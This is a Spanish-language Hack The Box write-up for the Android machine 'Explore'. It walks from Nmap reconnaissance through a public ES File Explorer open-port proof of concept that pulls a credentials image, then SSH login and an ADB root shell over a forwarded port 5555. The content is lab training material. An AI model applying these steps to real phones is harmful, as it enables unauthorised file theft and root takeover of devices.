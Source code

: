 ```yaml
---
title: Explore - Hack The Box
published: true
---
```


En esta ocasión vamos a estar resolviendo la máquina _Explore_ de _Hack The Box_. Es una máquina _Android_ de nivel de dificultad fácil en la intrusión, y medio en la escalada de privilegios según figura en la plataforma.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/1.png)

### [](#header-3)Fase De Reconocimiento

Primeramente vamos a lanzar una _traza ICMP_ para saber si la máquina está activa.

```
ping -c 1 10.10.10.247
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/2.png)

Una vez comprobamos que la máquina está activa (pues nos devuelve una respuesta), podemos también determinar a que tipo de máquina nos estamos enfrentando en base al valor del _TTL_; en este caso el valor del _TTL_ de la máquina es `63`, por lo que podemos intuir que estamos ante una máquina _Linux_. Recordemos que algunos de los valores referenciales son los siguientes:

| Sistema Operativo (OS) | TTL |
|:-----------------------|:----|
| Linux                  | 64  |
| Windows                | 128 |
| Solaris                | 254 | 

Si nos damos cuenta, en esta ocasión, el valor del _TTL_ es `63` y no `64` como indica la tabla anterior, esto se debe a que en el entorno de máquinas de _Hack The Box_, no nos comunicamos directamente con la máquina a vulnerar, sino que existe un intermediario, por lo que el _TTL_ disminuye en una unidad.

```
ping -c 1 10.10.10.247 -R                               
``` 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/3.png)

Posteriormente, vamos a utilizar la herramienta _Nmap_ para determinar que puertos están abiertos así como identificar la versión y servicios que corren en el activo. Para determinar que puertos están abiertos podemos realizar lo siguiente:

```
nmap -p- --open -T5 -v -n 10.10.10.247 -oG allPorts
```

Y en caso de que el escaneo tarde demasiado en completar, tenemos esta otra alternativa:

``` 
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.247 -oG allPorts
```

A continuación se explican los parámetros utilizados en el escaneo de puertos con _Nmap_:

* p - Escanea todo el rango de puertos (65535 en total)
* open - Nos indica todos aquellos puertos que están abiertos (o posiblemente abiertos)
* T5 - La plantilla de temporizado nos permite agilizar nuestro escaneo, este valor puede ir desde 0 hasta 5, cabe aclarar que a mayor sea el valor de la plantilla, "generaremos más ruido", pero no pasa nada ¿no? Al fin y al cabo estamos practicando en un entorno controlado y aquí somos todos `White Hat`
* v - _Verbose_, reporta lo encontrado por consola
* n - No aplicar _resolución DNS_
* sS - Escaneo _TCP SYN_
* min-rate - Emitir paquetes no más lentos que -valor- por segundo
* vvv - Triple _verbose_, para obtener mayor información por consola
* Pn - No aplicar _host discovery_
* oG - Exportar el escaneo en formato "_grepeable_"

Una vez hemos detectado los puertos que se encuentran abiertos en el activo, podemos pasar a determinar la versión y servicios que corren bajo estos puertos.

```  
nmap -sC -sV -p 2222,42135,42607,59777 10.10.10.247 -oN targeted
```

A continuación se explican los parámetros utilizados en el escaneo de versiones y servicios con _Nmap_:

* sC - Scripts básicos de enumeración
* sV - Versión y servicios que corren bajo los puertos encontrados
* p - Especificamos que puertos queremos analizar (los que encontramos abiertos en el paso anterior)
* oN - Exportar el escaneo en formato _Nmap_

Basándonos en la información que nos reporta _Nmap_, podemos darnos cuenta que nos encontramos frente a un teléfono móvil, y nuestra primera gran pista para la siguiente fase es el puerto `42135`.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/4.png)

### [](#header-3)Fase De Explotación

Para explotar el servicio `ES File Explorer`, empezaremos buscando algun _exploit_ que se encuentre en _Exploit Database_, para ello utilizaremos _SearchSploit_ para poder seguir trabajando desde nuestra terminal.

```
searchsploit ES File Explorer                               
``` 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/5.png)

En este caso _SearchSploit_ no mostró nada interesante, sin embargo, si revisamos manualmente en la página de _Exploit Database_, podemos encontrar un script que nos permite leer archivos alojados en el servicio de `ES File Explorer` de versión `4.1.9.7.4`, por esta razón es importante no quedarnos conformes únicamente con el primer resultado.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/6.png)

Sin embargo, tampoco será este el script con el que trabajaremos; en esta ocasión estaremos utilizando un proyecto de _GitHub_ del usuario _fs0c131y_, este se llama [ESFileExplorerOpenPortVuln](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln).

Para empezar a trabajar con este repositorio bastará con clonarlo en nuestra máquina.

``` 
git clone https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
```

Una vez lo tengamos descargado, podemos empezar a revisar que información se alojaba en el servicio `ES File Explorer`.

Después de estar listando el contenido almacenado en el teléfono móvil, encontramos entre las fotografías, una llamada `creds`, lo cual nos hace pensar a que se refiere a credenciales con las que posteriormente autenticarnos.

```
python3 poc.py --cmd listPics --ip 10.10.10.247                               
``` 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/7.png)

Por lo que procedemos a descargar esta imagen.

```  
python3 poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --ip 10.10.10.247 
``` 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/8.png)

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/9.png)

Si recordamos, otro servicio que detectamos con _Nmap_, fue el servicio _SSH_ en el puerto 2222.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/10.png)

Por lo que procederemos a autenticarnos con las credenciales encontradas:

```  
ssh kristi@10.10.10.247 -p 2222
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/11.png)

Una vez dentro de la máquina, procederemos a buscar la primera `flag`. Por lo que buscaremos el archivo `user.txt` dentro de todo el sistema.

```
echo **/*user.txt*
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/12.png)

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/13.png)

Podemos ver que en efecto esta es la `flag` del usuario con bajos privilegios.

Lo más común sería utilizar `find . -name user.txt` (y en este caso, redirigir todo el `stderr` o `Standard Error` hacia el `/dev/null`), sin embargo no conseguimos ningún resultado en esta máquina, por lo que resulta conveniente conocer otros métodos para realizar el mismo proceso.

### [](#header-3)Escalada De Privilegios

Para poder conseguir la siguiente `flag` (la del usuario con máximos privilegios), tenemos que percatarnos que la máquina tiene más puertos abiertos que los registrados con _Nmap_, a estos se los conoce como _puertos internos_.

```  
netstat -nlpt
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/14.png)

Si nos percatamos, la máquina utiliza el puerto `5555` para realizar varios procesos relacionados con `Android`; esto tiene sentido ya que algunos dispositivos _Android_ tienen este puerto abierto para realizar procesos relacionados con el `Android Debug Bridge` o `ADB` por sus siglas en inglés. 

Por lo que, lo que vamos a realizar es un _remote port forwarding_, para posteriormente, con el servicio `ADB` conseguir una shell de máximos privilegios con la que poder migrar al usario root y conseguir la última `flag`. 

En caso de no contar con el servicio `ADB` instalado, bastará con realizar lo siguiente:

```
sudo apt install adb
```

Una vez instalado el servicio `ADB`, podemos pasar a conseguir una shell con máximos privilegios dentro del dispositivo.

```
ssh -L 5555:localhost:5555 kristi@10.10.10.247 -p 2222
``` 

```
adb start-server
adb connect localhost:5555
adb devices
adb -s localhost:5555 shell
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/15.png)

Una vez hemos migrado al usuario `root`, simplemente tendremos que buscar la respectiva `flag`.

```
echo **/*root.txt*
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore---Hack-The-Box/16.png)
